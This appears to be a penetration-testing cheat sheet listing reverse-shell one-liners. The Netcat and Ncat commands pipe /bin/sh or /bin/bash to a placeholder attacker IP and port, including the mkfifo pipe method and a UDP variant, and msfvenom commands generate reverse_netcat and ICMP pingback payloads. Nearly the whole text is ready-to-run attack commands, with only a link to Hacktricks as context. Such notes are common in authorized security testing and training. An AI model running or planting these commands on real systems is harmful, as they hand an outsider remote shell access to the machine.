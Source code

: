 # Netcat

## 01 - One-liners

### 1.1 - Traditional GNU Method

```
$ nc <IP> <PORT> -e /bin/sh

$ nc <IP> <PORT> -e /bin/bash
```

### 1.2 - Ncat

TCP method.

```
$ ncat <IP> <PORT> -e /bin/bash
```

UDP method.

```
$ ncat -u <IP> <PORT> -e /bin/bash
```

### 1.3 - OpenBSD Method

```
$ mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <IP> <PORT> > /tmp/f; rm /tmp/f

$ mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <IP> <PORT> > /tmp/f; rm /tmp/f
```

## 02 - Generate a payload via `msfvenom`

### 2.1 - OpenBSD Method

```
$ msfvenom -p cmd/unix/reverse_netcat lhost=<IP> lport=<PORT>
```

### 2.2 - Traditional GNU Method

```
$ msfvenom -p cmd/unix/reverse_netcat_gaping lhost=<IP> lport=<PORT>
```

### 2.3 - ICMP Method

```
$ msfvenom -p cmd/unix/pingback_reverse lhost=<IP> lport=<PORT>
```

---
## References

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/linux.html)